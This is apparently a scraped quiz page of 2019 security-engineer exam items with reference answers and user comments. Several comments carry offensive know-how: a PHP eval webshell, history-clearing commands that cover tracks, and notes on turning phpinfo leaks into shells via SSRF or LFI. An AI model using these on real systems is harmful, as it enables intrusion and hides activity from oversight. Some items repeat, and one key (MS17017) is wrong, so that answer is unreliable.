msfconsole 要搜索永恒之蓝的漏洞的命令是 1

你的答案 (错误)

1 参考答案 (1) search MS17010 等

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

讨论

[冻成狗的 prince](https://www.nowcoder.com/profile/8949734)

ms17010

发表于 2019-10-16 20:43:11

* * *

[牛客 935006236 号](https://www.nowcoder.com/profile/935006236)

search ms17-010

发表于 2020-08-30 10:26:52

* * *

## 30

Flask 的修饰器 @login_requried 的作用是 1

你的答案 (错误)

1 参考答案 (1) 验证登录权限

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

## 31

有一个一句话木马的代码为, 那他的密码是 1

你的答案 (错误)

1 参考答案 (1) cmd

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

讨论

[小狐狸 FM](https://www.nowcoder.com/profile/412253669)

```cpp
<?php 
$x=$_GET['cmd'];//使用 GET 的方式获取来自用户的输入参数 cmd
@eval("$x;");//调用 eval 函数执行变量 x 内的 php 代码
?>
```

发表于 2021-10-08 19:09:51

* * *

## 32

执行 命令可以清理自己在服务器上操作的指令历史记录。1

你的答案 (错误)

1 参考答案 (1) history -c, echo > ~/.bash_history 等都可以

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

## 33

aslr 是对抗 1 攻击的技术

你的答案 (错误)

1 参考答案 (1) 缓冲区溢出漏洞

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

## 34

当访问 web 网站某个资源不存在时，返回的 HTTP 状态码是 1

你的答案 (错误)

1 参考答案 (1) 404

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

## 35

 nmap 的参数设置 -sV 代表着 1

你的答案 (错误)

1 参考答案 (1) Probe open ports to determine service/version info

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

讨论

[抽象带篮子官方频道](https://www.nowcoder.com/profile/1298904)

-sV (版本探测)

打开版本探测。 可以用-A 同时打开操作系统探测和版本探测。

发表于 2020-02-27 11:33:57

* * *

## 36

sqlmap 的 --dump-all 参数代表着 1

你的答案 (错误)

1 参考答案 (1) Dump all DBMS databases tables entries

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

## 37

sqlmap --tamper 参数的作用是 1

你的答案 (错误)

1 参考答案 (1) Use given script(s) for tampering injection data

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

## 38

mongodb 的默认端口号是 1

你的答案 (错误)

1 参考答案 (1) 27017

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

讨论

[牛客 254281158 号](https://www.nowcoder.com/profile/254281158)

27017

发表于 2021-12-31 08:58:50

* * *

[花开度夜](https://www.nowcoder.com/profile/571047829)

27017

发表于 2021-07-10 23:11:36

* * *

[阳光美少年](https://www.nowcoder.com/profile/375852337)

27017

发表于 2020-01-08 13:07:40

* * *

## 39

msfconsole 要搜索永恒之蓝的漏洞的命令是 1

你的答案 (错误)

1 参考答案 (1) search MS17017 等

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

## 40

Flask 的修饰器 @login_requried 的作用是 1

你的答案 (错误)

1 参考答案 (1) 验证登录权限

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

讨论

[牛客 287055281 号](https://www.nowcoder.com/profile/287055281)

验证登录权限

发表于 2021-11-14 19:55:24

* * *

## 41

phpinfo() 函数会打印哪一些信息？并描述这些信息可以用在渗透测试中的那些环节。

你的答案

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

讨论

[DDP1](https://www.nowcoder.com/profile/811263308)

1、php 版本 看 php 时候有 00 截断 看 udf 提权的路径 2、系统版本信息   可以确定常见的系统版本漏洞 3、PATH 看当前系统的环境变量 可以变向得出当前系统都安装了哪些软件 4、内网 IP 地址及端口号 可以在反弹 shell 下进行使用 5、当前网站路径  在注入写 shell 6、CGI 版本 看是否有相应漏洞 7、支持哪些扩展 比如 zip2 phar 等 后续看是否有包含进行利用 8、allow_url_include、allow_url_fopen 来看在包含时候使用哪些协议及时本地包含还是远程包含 9、diable_funciton 看是否有禁用函数限制 查看哪些没有经过限制的函数 10、default_charset  看注入是否有款字节 11、display_errors 如果有注入看时候可以进行报错注入是否能显示 12、error_log  看错误日志是否开启 13、file_uplaod 相关  看上传相关问题 大小及上传之后的路径 及上传之后的临时目录  14、open_basedir 传 shell 之后看是否要进行突破 15、smtp 相关 可以看看是否有 phpmail 等功能如果可以 则可以进行一些操作 16、curl 相关可以看看 支持哪些协议 在后***令执行或者 ssrf 可以打 redis 17、openssl 版本 如果配置看是否有心脏滴血 18、xml 相关 看是否有默认的 xxe 19、mysql 版本 看 mysql 相关漏洞 20、session 位置 及 session 处理方式 看是否存在 session 反序列化 

发表于 2019-09-05 15:14:04

* * *

## 42

phpinfo() 函数会打印哪一些信息？并描述这些信息可以用在渗透测试中的那些环节。

你的答案

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

讨论

[云雀--神乎其神](https://www.nowcoder.com/profile/823476284)

这个函数 来[测试](http://softtest.chinaitlab.com/)php 环境是否安装成功 😀那么这个 phpinto()函数会打印哪一些信息呢？phpinfo 函数能够输出服务器 PHP 当前状态的大量信息，其中包含了 PHP 的编译选项、启用拓展、php 版本信息、服务器信息、环境变量配置、HTTP 头和 PHP 授权信息！^_^

一、绝对路径(_SERVER[“SCRIPT_FILENAME”]) 信息收集

这个是最常用，也是最有效的一个办法，找到 phpinfo()页面可以直接找到网站的绝对路径，对于写 shell 和信息搜集是必不可少的

二、支持的程序

可以通过 phpinfo()查看一些特殊的程序服务，比如 redis、memcache、mysql、SMTP、curl 等等如果服务器装了 redis 或者 memcache 可以通过 ssrf 来 getshell 了，在 discuz 中都出现过此类问题。如果确定装了 redis 或 memcache 的话，在没有思路的情况下，可以着重找一下 ssrf

三、泄漏真实 ip（_SERVER[“SERVER_ADDR”]或 SERVER_ADDR）

有时候通过 phpinfo()泄漏的 ip 可以查查旁站、c 段什么的，直接无视 cdn，百事不灵。

四、GOPHER

也算是 ssrf 一部分吧，或者说主要靠 ssrf 利用起来，如果支持 gopher，ssrf 便没有压力咯

五、fastcgi

查看是否开启 fastcgi 和 fastcgi 的版本，可能导致解析漏洞、远程命令执行、任意文件读取等问题

六、泄漏缓存文件地址（_FILES[“file1”]）

向 phpinfo（） post 一个 shell 可以在 _FILES[“file1”]中看到上传的临时文件，如果有个 lfi，便可以直接 getshell 了。七、一些敏感配置

allow_url_include、allow_url_fopen、disable_functions、open_basedir、short_open_tag 等等

发表于 2021-04-14 18:03:03

* * *